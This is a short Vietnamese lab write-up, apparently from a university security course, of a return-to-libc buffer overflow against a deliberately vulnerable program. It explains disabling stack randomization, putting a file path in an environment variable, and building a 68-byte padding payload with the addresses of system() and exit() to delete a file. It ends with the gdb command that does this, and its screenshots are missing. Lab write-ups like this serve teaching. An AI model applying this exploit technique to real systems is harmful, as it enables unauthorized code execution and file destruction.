

# LAB 3

Khai thác lỗ hổng return-to-lib-c, xóa file "dummy" trong thư mục sử dụng biến môi trường.

Chương trình dùng để khai thác

Đầu tiên, chúng ta cần lấy đường dẫn tệp thực thi (mình đã biên dịch nó trước đây như ảnh) và tạo dummyfile ( cũng đã tạo như ảnh)

Dùng câu lệnh pwd để lấy đường dẫn :
`/home/seed/seclabs/Software/buffer-overflow/file_del`

Chúng ta cần phải tắt cấp phát ngẫu nhiên trên stack

Chúng ta tạo 1 biến toàn cục sử dụng câu lệnh 
`export my_path="/home/seed/seclabs/Software/buffer-overflow/file_del"`

Nếu bạn không chắc, có thể biên dịch lại chương trình vul.c 1 lần nữa 

Chúng ta có thể vẽ stack frame ra để từ đó hình dùng tấn công

Vậy để thực thi lab này chúng ta sẽ tính toán 68 bytes đệm, 4 bytes địa chỉ hàm system, 4 bytes địa chỉ hàm exit và 4 bytes địa chỉ nơi giá trị của my_path nằm

Địa chỉ của hàm system :`0xf7e50db0` sẽ là `\xb0\x0d\xe5\xf7`

Địa chỉ của hàm exit : `0xf7e449e0` sẽ là `\xe0\x49\xe4\xf7`

/home/seed/seclabs/Software/buffer-overflow/file_del có địa chỉ: `0xffffd8f4` sẽ là `\xf4\xd8\xff\xff`

Vậy câu lệnh cuối cùng sẽ là:

`r $(python -c "print('a'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\xf4\xd8\xff\xff')")`

Trước khi chạy

Sau khi chạy

Ảnh của trước khi chạy và sau khi chạy

